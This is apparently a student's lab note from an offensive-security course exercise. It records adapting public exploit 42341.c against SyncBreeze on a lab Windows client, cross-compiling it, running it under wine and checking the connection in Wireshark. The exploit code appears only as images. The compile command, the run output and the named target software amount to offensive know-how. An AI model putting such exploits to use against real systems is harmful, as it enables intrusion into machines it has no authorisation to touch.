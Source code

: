 15.1.4.1

# 15.1.4.1
## 15.1.4.1.1. Modify the connection information in the exploit in order to target the SyncBreeze installation on your Windows client. 

Modify 42341.c by changing the target IP and port. Here is the changed code.
![22c6b0e1022536ed4c950edea0545941.png](:/0f78dbce6e4240aeabc3a2aa8e3fd087)


## 15.1.4.1.2. Recompile the exploit and use Wireshark to confirm that the code successfully initiates a socket connection to your dedicated Windows client.

Compile the modified 42341.c. We see that there are no errors
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

Start SyncBreeze on the Windows Client
![9f29655de94c0df04cbb6ded66bc6f2c.png](:/6b6fd24b43fa4ce39040e8f6654ba947)

Start Wireshark -> interface tun0 -> display filter 192.168.214.10
![c7864b44ade02e562e545dd0273696ca.png](:/1e309514ac6044df908d5f2fe8c20cf8)

Run the exploit
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ wine syncbreeze_exploit.exe 
000f:err:service:process_send_command receiving command result timed out

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

Review Wireshark
Here is the output. 
![7889424b6514c82a786bc7ce64e6c80a.png](:/f5333d9eee5e4e619556bd78a8b13e94)
Take a closer look at the first 3 packets. It is the 3-way handshake SYN-SYN/ACK-ACK. This confirms the exploit initiates a successful socket connection to the Windows client.
![0d706139c0a967d524121f4ab8106650.png](:/2c551a7a00804e8cbd373620d47da7d3)





id: 4ba9a99a9f67471e83234bd11c806c4a
parent_id: 9a04a7bd83e14f0c94a95d18efa2053f
created_time: 2020-09-26T18:14:32.403Z
updated_time: 2020-09-26T20:07:06.462Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-26T18:14:32.403Z
user_updated_time: 2020-09-26T20:07:06.462Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1